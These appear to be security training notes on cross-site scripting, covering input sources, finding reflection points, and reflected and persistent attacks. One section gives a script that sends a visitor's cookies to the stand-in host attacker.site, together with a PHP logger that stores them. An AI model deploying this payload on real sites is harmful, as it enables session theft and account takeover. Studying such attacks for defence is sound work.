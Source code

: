 - **XSS** Vulnerabilities happen when a web app uses unfiltered user input to build the output content
- User Input could be:
    - Request header
    - Cookies
    - Form Input
    - POST parameters
    - GET parameters
- All of these input channels should be validated server side by well-implemented security functions
- The only way to prevent a cross-site scripting vulnerability is to never ever trever trust user input

## 4.6.2 Finding an XSS

- We look at every user input, and test if it is somehow displayed on the output of the web application
- After finding a reflection point, we have to understand if we can inject HTML code, sometimes it is just a matter of injecting harmless HTML tag like `<i>`, `<pre>` or `<plaintext>`
- To test the XSS, we can inject some valid HTML/Javascript code like:

```html
    <script>alert('XSS')</script>
```

- To exploit an XSS vulnerability that we find, we need to know the type: reflected, persistant or DOM based

## 4.6.3 Reflected XSS Attacks

- **Reflected Attacks** happen when the malicious payload is carried inside the request that the browser of the victim sends to the vulnerable website, they could be triggered by a link, when the user clicks the link, they trigger the attack

## 4.6.4 Persistent XSS Attack

- **Persistent XSS Attack** occur when the payload is sent to the vulnerable web server and then stored, then the malicious code gets delivered each time a web browser hits the "injected" web page
- The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users

## 4.6.5 Cookie Stealing via XSS

- Using the code below, we can send cookies content to an attacker-controlled site:

```html
<script>
    var i = new Image();
    i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

- The script generates an image object and points its `src` to a script on the attacker's server
- The browser cannot tell if the source is a real image, so it loads and execute the script even without displaying any image, then the cookie is sent to the attacker
- The `log.php` script saves the cookie is a text file on the attacer.site:
```php
<?php
	$filename="/tmp/log.txt";
	$fp=fopen($filename, 'a');
	$cookie=$_GET['q'];
	fwrite($fp, $cookie);
	fclose($fp);
?>
```
